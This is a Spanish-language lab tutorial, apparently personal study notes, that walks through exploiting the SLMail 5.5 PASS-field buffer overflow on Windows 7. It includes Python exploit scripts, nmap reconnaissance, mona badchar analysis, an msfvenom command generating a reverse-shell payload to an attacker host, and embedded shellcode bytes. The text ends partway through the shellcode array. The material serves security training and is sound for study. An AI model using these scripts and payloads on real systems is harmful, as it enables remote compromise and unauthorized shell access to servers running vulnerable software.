

# Introducción
El **buffer overflow** (**desbordamiento de búfer**) es una vulnerabilidad común en software que puede permitir a un atacante ejecutar código malicioso o tomar control de un sistema comprometido.
    
Esta vulnerabilidad se produce cuando un programa intenta almacenar **más datos** en un **búfer** (zona de memoria temporal para almacenamiento de datos) de lo que se había previsto, y al exceder la capacidad del búfer, los datos adicionales se escriben en otras zonas de memoria adyacentes.
    
Esto puede permitir que un atacante escriba código malicioso en estas zonas de memoria y sobrescriba otros datos críticos del sistema, como la dirección de retorno de una función o la dirección de memoria donde se almacena una variable, permitiendo al atacante tomar el control del flujo del programa.
    
Los impactos de un buffer overflow pueden ser graves, ya que un atacante puede aprovechar esta vulnerabilidad para obtener información confidencial, robar datos o incluso tomar el control completo del sistema. Si los atacantes disponen del conocimiento necesario, pueden incluso conseguir ejecutar comandos maliciosos en el sistema comprometido.

# Creación del laboratorio

- Links de descarga:
        
    - **Versión de 32 bits (Recomendada)**: [https://windows-7-home-premium.uptodown.com/windows/descargar/68635486](https://windows-7-home-premium.uptodown.com/windows/descargar/68635486)
        
    - **Versión alternativa de 32 bits**: https://windows-7-home-premium.uptodown.com/windows/descargar/15870
        
    - **Immunity Debugger**: [https://immunityinc.com/products/debugger/](https://immunityinc.com/products/debugger/)
    - **mona.py**: [https://raw.githubusercontent.com/corelan/mona/master/mona.py](https://raw.githubusercontent.com/corelan/mona/master/mona.py)
    - **SLMail**: [https://slmail.software.informer.com/download/](https://slmail.software.informer.com/download/)
    

## Instalación

Primero se debe descargar Windows 7 de 32 bits: [https://windows-7-home-premium.uptodown.com/windows/descargar/68635486](https://windows-7-home-premium.uptodown.com/windows/descargar/68635486)


Una vez instalado todo el Windows, ahora toca instalar el Immunity Debugger: [https://debugger.immunityinc.com/ID_register.py](https://debugger.immunityinc.com/ID_register.py)


Se puede desactivar las siguiente ventana emergente dando click en “Change when these notifications apear” y bajar la barra hasta abajo.


Al correr el programa, intentará descargar Python por lo que hay que darle a “Yes”.


Ahora se debe instalar Mona, para esto hay que copiar el código de “mona.py” y meterlo en un nuevo archivo de texto el cual se llamará “mona.py”, para que el archivo tenga el formato correcto se podría abrir el CMD y cambiar el formato del archivo con “move”.

mona.py: [https://raw.githubusercontent.com/corelan/mona/master/mona.py](https://raw.githubusercontent.com/corelan/mona/master/mona.py)

```bash
move mona.py.txt mona.py
```

Se debe mover este script a la ruta: C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands

Una vez hecho esto, ya se puede utilizar mona en el “Immunity Debugger” escribiendo !mona.


De cara al Buffer Overflow, se ejecutarán comandos en la pila o “stack” y Windows trae por defecto una protección contra ejecución de datos (DEP) por lo que habrá que deshabilitarla.

- ¿Qué es DEP?
    
    La Prevención de ejecución de datos (DEP) es una tecnología integrada en Windows que ayuda a protegerte del inicio de código ejecutable desde lugares donde no se supone que sea necesario. DEP lo hace al marcar algunas áreas de la memoria del equipo como solo para datos, no se permitirá que se ejecute ningún código ejecutable o aplicaciones desde esas áreas de memoria.
    

Para deshabilitarlo hay que abrir el CMD como administrador e ingresar el siguiente comando:

```bash

bcdedit.exe /set {current} nx AlwaysOff

```


Una vez hecho esto, habrá que reiniciar la máquina para que se apliquen los cambios.

Hay que desactivar el firewall de Windows para poder enviar trazas ICMP.


Ahora se instalará el programa vulnerable “SLMail”.


A la hora de instalar el programa, solo hay que dar click en “next” a todo y al final reiniciará la máquina.

Por último solo queda verificar en el “SLmailConfiguration” que el SLMail esté activo en la pestaña “Control”.


Por último solo queda verificar en el “SLmailConfiguration” que el SLMail esté activo en la pestaña “Control”.


# Fase inicial de Fuzzing y control del registro EIP


En la fase inicial de explotación de un buffer overflow, una de las primeras tareas es averiguar los límites del programa objetivo. Esto se hace probando a introducir más caracteres de los debidos en diferentes campos de entrada del programa, como una cadena de texto o un archivo, hasta que se detecte que la aplicación se corrompe o falla.
    
Una vez que se encuentra el límite del campo de entrada, el siguiente paso es averiguar el **offset**, que corresponde al número exacto de caracteres que se deben introducir para provocar una corrupción en el programa y, por lo tanto, para sobrescribir el valor del registro EIP.
    
El registro **EIP** (**Extended Instruction Pointer**) es un registro de la CPU que apunta a la dirección de memoria donde se encuentra la siguiente instrucción que se va a ejecutar. En un buffer overflow exitoso, el valor del registro EIP se sobrescribe con **una dirección controlada por el atacante**, lo que permite ejecutar código malicioso en lugar del código original del programa.
    
Por lo tanto, el objetivo de averiguar el offset es determinar el número exacto de caracteres que se deben introducir en el campo de entrada para sobrescribir el valor del registro EIP y apuntar a la dirección de memoria controlada por el atacante. Una vez que se conoce el offset, el atacante puede diseñar un exploit personalizado para el programa objetivo que permita tomar control del registro EIP y ejecutar código malicioso.
    

## Reconocimiento

```bash
arp-scan -I enp0s3 --localnet --ignoredups
ping -c1 <IP>
nmap -p- --open -sS -n -Pn <IP>
searchsploit slmail 5.5
```


Como se puede ver, los puertos 25 SMTP y 110 de SLMail están abiertos por lo que se lanza un reconocimiento con una serie de scripts básicos de nmap y para detectar la versión.

```bash
nmap -p25,110 -sCV 192.168.0.104
```


Como se puede ver, se encontró que la versión del SLMail corresponde a la 5.5. Ahora se buscarán vulnerabilidades para esta versión.

```bash
searchsploit SLmail 5.5
```



Para conectarse al servicio, se utiliza telnet y se especifica el puerto 110 y para loguearse se especifica un usuario y contraseña con “USER” y “PASS”.

```bash
telnet <IP> 110
```


## Fuzzing

De primeras el atacante debe fuzzear todo el servicio, es decir, conectarse al servicio y probar introducir parámetros inválidos o caracteres inesperados con el objetivo de acontecer errores y ver cómo se comporta el servicio.

En este caso se hará uso de Immunity Debugger para ver cómo se comporta la aplicación a bajo nivel. Primero se abrirá el proceso, para esto hay que dar click en ”File/Attach” y seleccionar el proceso SLMail.


De primeras estará en modo “Paused” y para correrlo hay que darle al ícono rojo de “Play”.

Ahora se pueden ver los registros y entre ellos está el EIP el cual apuntará a la siguiente dirección de memoria para ser ejecutada.


En las vulnerabilidades encontradas para este servicio, se ve que el campo PASS es vulnerable a Buffer Overflow, por lo que para este primer ejercicio será tomar control del EIP y para ello se creará un script en Python que automatizará todo el proceso.

```bash
#!/usr/bin/python3

import socket
import sys

# Esto se usa para verificar que se está introduciendo 
# un argumento en el script.
if len(sys.argv) != 2:
	print("[!] Usage: exploit.py <length>")
	exit(1)

# Variables globales
ip_add = "192.168.0.104" # IP destino
port = 110 # Puerto destino

# Almacena el primer argumento que se le pasa al script y
# se le aplica un typecasting.
total_length = int(sys.argv[1])

def exploit():
	
	# Create a socket.
	# Esto sirve para especificar que se entrablará 
	# una conexión TCP.
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	# Connect to the server.
	# Sirve para establecer esa conexión TCP,
	# se especifica la IP y el puerto.
	s.connect((ip_add, port))

	# Receive the banner.
	# Sirve para verificar que se estableció la conexión
	# correctamente.
	# Específicamente se está recibiendo una cadena de 
	# caracteres de la cabecera de repuesta del servidor
	banner = s.recv(1024) # 1024 Bytes que se recibirán

	# Send data.
	# Ahora se enviarán los datos para loguearse en el 
	# servidor, es decir, el "USER" y "PASS".
	s.send(b"USER bof" + b"\r\n") # "\r\n" representa el ENTER.
	s.send(b"PASS " + b"A"*total_length + b"\r\n")
	s.close() # Cerrará la conexión TCP

if __name__ == '__main__':
	exploit()
```

## Tomar el control del EIP

Lo que hará el script es tomar un número como argumento y será la cantidad de “A” que se enviarán en el campo “PASS” por lo que si se le especifican 200, se enviarán 200 “A”. La idea es acontecer un error y poder llegar a sobrescribir los registros para tomar el control del EIP.

Al enviar 4000 caracteres, el programa se detuvo y se sobrescribió el EIP con “41414141” lo cual corresponde a cuatro “A” en hexadecimal.


El programa crasheó y para restaurarlo hay que cerrar y abrir la ventana del SLMailconfiguration para correr el servicio y volver a abrir el Immunity Debugger para volver a abrir el proceso del SLMail y darle a Play, el programa debería estar ahora en “Running”.

Una vez descubierta la posibilidad de sobrescribir los registros, ahora hay que descubrir cuántos caracteres hay que ingresar antes de sobrescribir el EIP.

Primero, se debe crear una cadena de caracteres con patrones, para esto se puede utilizar una herramienta de metasploit llamada “pattern_create.rb”:

```bash
/usr/share/metasploit-framework/
tools/exploit/pattern_create.rb -l 4000

-l # Indica la cantidad de caracteres a crear
```

Ahora se modificará el script para que envíe toda la cadena de caracteres proporcionada por el “pattern_create”. El script quedará de la siguiente manera:

```bash
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_add = "192.168.0.104" # IP destino
port = 110 # Puerto destino
payload = b'<patrón con 4000 caracteres>'

def exploit():
	
	# Create a socket.
	# Esto sirve para especificar que se entrablará 
	# una conexión TCP.
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	# Connect to the server.
	# Sirve para establecer esa conexión TCP,
	# se especifica la IP y el puerto.
	s.connect((ip_add, port))

	# Receive the banner.
	# Sirve para verificar que se estableció la conexión
	# correctamente.
	# Específicamente se está recibiendo una cadena de 
	# caracteres de la cabecera de repuesta del servidor
	banner = s.recv(1024) # 1024 Bytes que se recibirán

	# Send data.
	# Ahora se enviarán los datos para loguearse en el 
	# servidor, es decir, el "USER" y "PASS".
	s.send(b"USER bof" + b"\r\n") # "\r\n" representa el ENTER.
	s.send(b"PASS " + payload + b"\r\n")
	s.close() # Cerrará la conexión TCP

if __name__ == '__main__':
	exploit()
```

Al enviar estos datos, el programa crasheó y se puede ver que el EIP se sobrescribió con una cadena de caracteres específica en hexadecimal: 39694438.


Lo que hay que hacer es tomar esta cadena de caracteres y pasárselo a un módulo de metasploit llamado “pattern_offset.rb”:

```bash
/usr/share/metasploit-framework/
tools/exploit/pattern_offset.rb -q 0x39694438
```

Esto devolverá el offset o la cantidad de caracteres que hay que enviar antes de encontrase con esa cadena de caracteres proporcionada, en otras palabras, devolverá la cantidad de caracteres que hay que ingresar antes de sobrescribir el EIP.


Ahora que se sabe el offset, hay que modificar el script para que envíe 2606 “A” más una cadena de caracteres específica para modificar el EIP y comprobar que el offset es correcto:

```bash
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_add = "192.168.0.104" # IP destino
port = 110 # Puerto destino

def exploit():
	
	# Create a socket.
	# Esto sirve para especificar que se entrablará 
	# una conexión TCP.
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	# Connect to the server.
	# Sirve para establecer esa conexión TCP,
	# se especifica la IP y el puerto.
	s.connect((ip_add, port))

	# Receive the banner.
	# Sirve para verificar que se estableció la conexión
	# correctamente.
	# Específicamente se está recibiendo una cadena de 
	# caracteres de la cabecera de repuesta del servidor
	banner = s.recv(1024) # 1024 Bytes que se recibirán

	# Send data.
	# Ahora se enviarán los datos para loguearse en el 
	# servidor, es decir, el "USER" y "PASS".
	s.send(b"USER bof" + b"\r\n") # "\r\n" representa el ENTER.
	s.send(b"PASS " + b"A"*2606 + b"BBBB" + b"\r\n")
	s.close() # Cerrará la conexión TCP

if __name__ == '__main__':
	exploit()
```

Como se puede ver, ahora el EIP vale “42424242” lo cual corresponde a “BBBB” en hexadecimal y con esto se puede confirmar que el offset es correcto y se puede controlar el valor del EIP.


# Asignación de espacio para el Shellcode
    
Una vez que se ha encontrado el **offset** y se ha sobrescrito el valor del registro **EIP** en un buffer overflow, el siguiente paso es identificar en qué parte de la memoria se están representando los caracteres introducidos en el campo de entrada.
    
Después de sobrescribir el valor del registro EIP, cualquier carácter adicional que introduzcamos en el campo de entrada, veremos desde Immunity Debugger que en este caso particular estos estarán representados al comienzo de la **pila** (**stack**) en el registro **ESP** (**Extended Stack Pointer**). El ESP (Extended Stack Pointer) es un registro de la CPU que se utiliza para manejar la pila (stack) en un programa. La pila es una zona de memoria temporal que se utiliza para almacenar valores y **direcciones de retorno** de las funciones a medida que se van llamando en el programa.
    
Una vez que se ha identificado la ubicación de los caracteres en la memoria, la idea principal en este punto es introducir un **shellcode** en esa ubicación, que son instrucciones de bajo nivel las cuales en este caso corresponderán a una instrucción maliciosa.
    
El shellcode se introduce en la pila y se coloca en la misma dirección de memoria donde se colocaron los caracteres sobrescritos. En otras palabras, se aprovecha el desbordamiento del búfer para ejecutar el shellcode malicioso y tomar control del sistema.
    
Es importante tener en cuenta que el shellcode debe ser diseñado cuidadosamente para evitar que se detecte como un programa malicioso, y debe ser compatible con la arquitectura de la CPU y el sistema operativo que se está atacando.


En resumen, la idea para este ejercicio es ver lo que pasa si se ingresan más datos después de sobrescribir el EIP, se verá como estos datos sobrescribirán el ESP, este registro contiene como valor la dirección en memoria de la pila o “stack” la cual se utiliza para almacenar valores temporales.

Para hacer esto, se modificará el script para que, además de sobrescribir el EIP, envíe más “A”.

```bash
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_add = "192.168.0.104" # IP destino
port = 110 # Puerto destino

# Estructura del payload
before_eip = b"A"*2606
eip = b"B"*4
after_eip = b"C"*200

payload = before_eip + eip + after_eip

def exploit():
	
	# Create a socket.
	# Esto sirve para especificar que se entrablará 
	# una conexión TCP.
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	# Connect to the server.
	# Sirve para establecer esa conexión TCP,
	# se especifica la IP y el puerto.
	s.connect((ip_add, port))

	# Receive the banner.
	# Sirve para verificar que se estableció la conexión
	# correctamente.
	# Específicamente se está recibiendo una cadena de 
	# caracteres de la cabecera de repuesta del servidor
	banner = s.recv(1024) # 1024 Bytes que se recibirán

	# Send data.
	# Ahora se enviarán los datos para loguearse en el 
	# servidor, es decir, el "USER" y "PASS".
	s.send(b"USER bof" + b"\r\n") # "\r\n" representa el ENTER.
	s.send(b"PASS " + payload + b"\r\n")
	s.close() # Cerrará la conexión TCP

if __name__ == '__main__':
	exploit()
```

Como se puede ver, ahora en el registro ESP, se muestran muchas “C”.


Esto se puede ver de una forma más cómoda dando click derecho en la dirección del EIP y click en “Follow in Dump”.


De esta forma se ven las secciones de memoria que se están sobrescribiendo, primero se ve que el registro ESP apunta a la dirección “0195A128” y en el recuadro de la izquierda abajo se ve esa sección de memoria en la que se empieza a sobrescribir con “C”, además se pueden ver las “A” y “B” sobrescritas de antes.

El objetivo es hacer que el EIP apunte a la dirección que apunta el ESP (0195A128) para que se interprete lo que se ingresa en esta sección de memoria. El problema es que de primeras no se puede hacer que el EIP apunte directamente a la dirección que apunta el ESP. Lo que se debe hacer es que el EIP apunte a una zona de la memoria en la que, como OPCode (Operation Code) se aplique una instrucción “jump” al ESP. Otro aspecto a tomar en cuenta es que no todos los caracteres de la memoria son interpretados por el programa, a estos caracteres se les llama “BadChars” y al intentar ser interpretados, hace que el programa se corrompa por lo que hay que identificar qué caracteres no son interpretados por el programa.

- ¿Qué es un OPCode y para qué sirve la instrucción “jump”?
    
    En programación, el término "Operation Code" (abreviado como OpCode u OPCode) se refiere a la parte de una instrucción de máquina que identifica la operación específica que debe realizar el procesador. Es un código numérico o mnemónico que representa una operación fundamental del procesador, como sumar, restar, cargar un valor en un registro, comparar dos valores, etc. Los OpCodes son parte esencial en la arquitectura de un procesador y definen las operaciones que la unidad de control puede ejecutar.
    
    La instrucción "jump" (salto en español) es una instrucción común en la programación y la arquitectura de computadoras. Su propósito principal es alterar el flujo de ejecución de un programa, permitiendo que el programa salte de una ubicación de memoria a otra. En otras palabras, permite la transferencia no secuencial de control dentro de un programa.
    
    La instrucción "jump" se utiliza para implementar bifurcaciones condicionales y bucles en un programa. En una bifurcación condicional, el programa puede saltar a diferentes partes del código según una condición dada. Por ejemplo, si una condición es verdadera, el programa podría saltar a un conjunto de instrucciones, mientras que si la condición es falsa, podría saltar a otro conjunto de instrucciones.
    
    En bucles, la instrucción "jump" también es esencial. Una instrucción de salto incondicional (como un "jump" sin condición) puede utilizarse para crear un bucle infinito o para implementar bucles controlados por una variable o condición, permitiendo que un bloque de código se repita varias veces hasta que se cumpla cierta condición de salida.
    
    En lenguajes de alto nivel, como C, C++, Java y otros, la instrucción "jump" suele estar encapsulada en estructuras de control más amigables para el programador, como "if", "while", "for" y "switch", lo que oculta la complejidad de las instrucciones de salto de nivel de máquina y facilita el desarrollo de programas más estructurados y legibles.
    
- ¿Qué es un badchar?
    
    Los badchars son **caracteres inválidos o “malos” los cuales el programa a explotar no los acepta**, por lo consiguiente el atacante cuando genere su shellcode la misma no sirve, ya que estos caracteres no fueron identificados y hace que el programa se rompa.

# Generación de Bytearrays y detección de Badchars

En la generación del shellcode malicioso para la explotación del buffer overflow, es posible que algunos caracteres no sean interpretados correctamente por el programa objetivo. Estos caracteres se conocen como “**badchars**” y pueden causar que el shellcode falle o que el programa objetivo se cierre inesperadamente.
    
Para evitar esto, es importante identificar y eliminar los badchars del shellcode. En esta clase, veremos cómo desde Immunity Debugger podremos aprovechar la funcionalidad **Mona** para generar diferentes bytearrays con casi todos los caracteres representados, y luego identificar los caracteres que el programa objetivo no logra interpretar.
    
Una vez identificados los badchars, se pueden descartar del shellcode final y generar un nuevo shellcode que no contenga estos caracteres. Para identificar los badchars, se pueden utilizar diferentes técnicas, como la introducción de diferentes bytearrays con caracteres hexadecimales consecutivos, que permiten identificar los caracteres que el programa objetivo no logra interpretar.
    
Estos caracteres irán representados en la pila (**ESP**), que será donde veremos qué caracteres son los que no están siendo representados, identificando así los badchars.
    

## Creación del bytearray

Teniendo el espacio de trabajo en donde se ingresará el shellcode, es decir, el espacio en donde se ingresaron las “C”, ahora toca descubrir los badchars o caracteres malos que no serán interpretados por el programa para eliminarlos.

Para esto, primero se establecerá el espacio de trabajo, introduciendo el siguiente comando en el Immunity Debugger:

```bash
!mona
!mona config

# Establecer la ruta de trabajo que se usará
# Esto creará el directorio "Analysis".
!mona config -set workingfolder C:\Users\bryan\Desktop\Analysis
```


Ahora se creará un archivo con una bytearray dentro del directorio.

Nota: El Null byte “\x00” por lo general será un problema por lo que es mejor excluirlo de primeras.

```bash
# Esto creará una cadena de bytes dentro del directorio 
# de trabajo.
!mona bytearray

	# Se crea un bytearray excluyendo el "\x00"
	!mona bytearray -cpb '\x00'
```


Esto creará un archivo “bytearray.txt” dentro del directorio “Analysis” con el bytearray.


## Eliminación de badchars

Ahora se tomará este bytearray y se enviará como payload en el script, esto con la idea de poder identificar los badchars, se sabrá que un caracter es un badchar porque este no aparecerá en la sección de memoria del ESP.

Primero se pasará este bytearray a la máquina local del atacante por medio de SMB.

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```


Ahora este bytearray se debe incorporar en el script para que quede de esta forma:

```bash
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_add = "192.168.0.104" # IP destino
port = 110 # Puerto destino

# Estructura del payload
before_eip = b"A"*2606
eip = b"B"*4
after_eip = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = before_eip + eip + after_eip

def exploit():
	
	# Create a socket.
	# Esto sirve para especificar que se entrablará 
	# una conexión TCP.
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	# Connect to the server.
	# Sirve para establecer esa conexión TCP,
	# se especifica la IP y el puerto.
	s.connect((ip_add, port))

	# Receive the banner.
	# Sirve para verificar que se estableció la conexión
	# correctamente.
	# Específicamente se está recibiendo una cadena de 
	# caracteres de la cabecera de repuesta del servidor
	banner = s.recv(1024) # 1024 Bytes que se recibirán

	# Send data.
	# Ahora se enviarán los datos para loguearse en el 
	# servidor, es decir, el "USER" y "PASS".
	s.send(b"USER bof" + b"\r\n") # "\r\n" representa el ENTER.
	s.send(b"PASS " + payload + b"\r\n")
	s.close() # Cerrará la conexión TCP

if __name__ == '__main__':
	exploit()
```

La idea es que el bytearray sobrescriba el ESP para que represente los caracteres en la memoria y así identificar los caracteres que no se muestran para clasificarlos como badchars y eliminarlos del bytearray.


Se puede ver que después del “09”, no aparece el “0a” el cual es el que le sigue al “09” por lo que este debe eliminarse del bytearray.

Para verificar esto, se puede usar el siguiente comando de mona para comparar lo que se encuentra en la dirección en memoria del ESP y el archivo “bytearray.bin” para encontrar badchars.

```bash
!mona compare -a 0x<direcciónEnMemDelStack> 
-f <path/to/bytearray.bin>

-a # Indica la dirección en memoria del stack, es decir, 
# el valor del ESP
-f # Indica el path al bytearray.bin

# Eje:
	!mona compare -a 0x0272A128 
	-f C:\Users\bryan\Desktop\Analysis\bytearray.bin
```


Como se puede ver, se identificaron dos badchars, el “00” y el “0a”, ahora lo que hay que hacer es generar otro bytearray excluyendo estos badchars.

```bash
!mona bytearray -cpb '\x00\x0a'
```

Y ahora en la máquina del atacante, se debe modificar el código para eliminar este badchar y volver a reiniciar el servicio SLMail para enviar el payload, este proceso se debe repetir hasta que no hayan badchars.


El script quedará de la siguiente manera:

```bash
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_add = "192.168.0.104"
port = 110

before_eip = b"A"*2606
eip = b"B"*4
after_eip = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = before_eip + eip + after_eip

def exploit():
    # Create a socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # Connect to the server
    s.connect((ip_add, port))

    # Receive banner
    banner = s.recv(1024)

    # Send data
    s.send(b"USER bof" + b"\r\n")
    s.send(b"PASS " + payload + b"\r\n")
    s.close()

if __name__ == '__main__':
    exploit()
```

# Búsqueda de OpCodes y cargar Shellcode

Una vez que se ha generado el shellcode malicioso y se han detectado los badchars, el siguiente paso es hacer que el flujo del programa entre en el shellcode para que sea interpretado. La idea es hacer que el registro EIP apunte a una dirección de memoria donde se aplique un **opcode** que realice un salto al registro **ESP** (**JMP ESP**), que es donde se encuentra el shellcode. Esto es así dado que de primeras no podemos hacer que el EIP apunte directamente a nuestro shellcode.
    
Para encontrar el opcode **JMP ESP**, se pueden utilizar diferentes herramientas, como **mona.py**, que permite buscar opcodes en módulos específicos de la memoria del programa objetivo. Una vez que se ha encontrado el opcode ‘**JMP ESP**‘, se puede sobrescribir el valor del registro EIP con la dirección de memoria donde se encuentra el opcode, lo que permitirá saltar al registro ESP y ejecutar el shellcode malicioso.
    
La búsqueda de opcodes para entrar al registro ESP y cargar el shellcode es una técnica utilizada para hacer que el flujo del programa entre en el shellcode para que sea interpretado. Se utiliza el opcode JMP ESP para saltar a la dirección de memoria del registro ESP, donde se encuentra el shellcode.
    

## Creación del shellcode

Una vez eliminados los badchars, se puede crear el shellcode que proporcionará una reverse shell al ser insertado e interpretado en el ESP.

Para crear este shellcode se usará msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp 
--platform windows -a x86 LHOST=192.168.0.100 LPORT=443 
-f c -b '\x00\x0a\x0d' EXITFUNC=thread

-p # Indica el tipo de payload, se ingresa el SO y 
# cómo se proporcionará la shell. Los payloads 
# con "/meterpreter/" entablarán una reverse shell 
# para metasploit. En este caso se usa un payload que 
# permitirá usar netcat para obtener la shell.

--platform <OS> -a <x64/x86> # Indica la plataforma a la 
# que será insertado el payload y la arquitectura si es 
# 64 o 32 bits.

LHOST= # Indica que se enviará una reverse shell a una 
# dirección IP.
LPORT= # Indica el puerto por el cual se recibirá la 
# reverse shell

-f # Indica el formato que tomará el shellcode

-b # Indica los badchars a eliminar en el shellcode

EXITFUNC=thread # Sirve para crear un subproceso por el 
# cual se colgará la sesión con la máquina víctima.
# Sin esto, al terminar la sesión en la víctima, el 
# proceso crasheará y el servicio ya no estará disponible

# Comandos extra
-l payloads # Muestra una lista con todos tipos de 
# payloads disponibles
-l encoders # Muestra una lista con todos los encoders 
# disponibles
-e # Sirve para indicar un encoder
```

Nota: Al crear el shellcode, si se especifican los badchars, por defecto se empleará el encoder “x86/shikata_ga_nai”.

- ¿Qué es el encoder shikata na gai?
    
    El término "shikata ga nai" proviene del japonés y significa "no se puede hacer nada al respecto" o "nada puede hacerse al respecto". En el contexto de la seguridad informática y el malware, "Shikata Ga Nai" se refiere a un módulo de codificación/polimorfismo utilizado en la herramienta de creación de malware Metasploit Framework.
    
    En Metasploit Framework, "Shikata Ga Nai" es un encoder polimórfico diseñado para alterar el código del shellcode (código ejecutable en lenguaje de máquina) utilizado para explotar vulnerabilidades en sistemas informáticos. Su objetivo principal es evadir la detección por parte de programas antivirus y sistemas de seguridad.
    
    El encoder Shikata Ga Nai cambia la estructura del shellcode en cada ejecución utilizando técnicas de ofuscación, reorganización y cifrado. Esto genera una variante única del shellcode en cada ejecución, lo que dificulta que las soluciones de seguridad basadas en patrones o firmas identifiquen y bloqueen el código malicioso.
    
    Es importante mencionar que Metasploit Framework es una herramienta legítima utilizada para pruebas de penetración y evaluación de seguridad. Sin embargo, también puede ser utilizada por atacantes para desarrollar y desplegar malware. Como resultado, las técnicas de codificación y ofuscación, como el encoder Shikata Ga Nai, pueden ser empleadas tanto con fines legítimos como maliciosos.
    


Ahora se copiará este shellcode proporcionado y se usará para enviarlo como payload en el script:

```bash
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_add = "192.168.0.104"
port = 110

before_eip = b"A"*2606
eip = b"B"*4
shellcode = (b"\xbf\x77\x7d\x85\xae\xd9\xcb\xd9\x74\x24\xf4\x5a\x31\xc9"
b"\xb1\x52\x31\x7a\x12\x03\x7a\x12\x83\xb5\x79\x67\x5b\xc5"
b"\x6a\xe5\xa4\x35\x6b\x8a\x2d\xd0\x5a\x8a\x4a\x91\xcd\x3a"
b"\x18\xf7\xe1\xb1\x4c\xe3\x72\xb7\x58\x04\x32\x72\xbf\x2b"
b"\xc3\x2f\x83\x2a\x47\x32\xd0\x8c\x76\xfd\x25\xcd\xbf\xe0"
b"\xc4\x9f\x68\x6e\x7a\x0f\x1c\x3a\x47\xa4\x6e\xaa\xcf\x59"
b"\x26\xcd\xfe\xcc\x3c\x94\x20\xef\x91\xac\x68\xf7\xf6\x89"
b"\x23\x8c\xcd\x66\xb2\x44\x1c\x86\x19\xa9\x90\x75\x63\xee"
b"\x17\x66\x16\x06\x64\x1b\x21\xdd\x16\xc7\xa4\xc5\xb1\x8c"
